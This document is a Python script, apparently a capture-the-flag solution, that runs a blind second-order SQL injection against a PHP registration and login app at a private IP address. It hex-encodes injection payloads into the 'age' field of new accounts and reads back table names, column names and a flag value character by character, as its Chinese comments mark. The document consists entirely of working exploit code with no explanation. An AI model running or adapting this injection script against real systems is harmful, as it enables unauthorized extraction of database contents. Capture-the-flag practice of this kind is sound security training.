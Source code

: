 ```python
#-*- coding: utf-8 -*-
import requests
import binascii
import random
url_register = "http://10.112.108.77:10002/register.php"
url_login = "http://10.112.108.77:10002/login.php"
url_index = "http://10.112.108.77:10002/index.php"
result = 'result:'
cookie = {
    "PHPSESSID" : "" # 需填
}
for i in range(1, 65):
    for j in range(32, 127):
        username = "asdf{0}".format(str(random.randint(0,99999)))
        # 表名 children,py_flag
        # age = "-1' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{0},1))={1}#".format(str(i), str(j))
        # 列名 Id,tsctf_fla9
        # age = "-1' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='py_flag'),{0},1))={1}#".format(str(i), str(j))
        # flag
        age = "-1' and ascii(substr((select tsctf_fla9 from py_flag),{0},1))={1}#".format(str(i), str(j))
        age = binascii.hexlify(bytes(age, 'utf8'))
        age = "0x" + str(age, "utf8")
        data1 = {
            "user" : username,
            "pass" : "123456",
            "age" : age
        }
        data2 = {
            "user": username,
            "pass": "123456"
        }
        while True:
            try:
                resp1 = requests.post(url=url_register, data=data1, cookies=cookie, allow_redirects=False)
                break
            except Exception as e:
                continue
        while True:
            try:
                resp2 = requests.post(url=url_login, data=data2, cookies=cookie, allow_redirects=True)
                resp3 = requests.get(url=url_index, cookies=cookie)
                # print(resp3.text)
                if "asdf,bbb,123456" in resp3.text:
                    result += chr(j)
                    print(result)
                break
            except Exception as e:
                continue
```
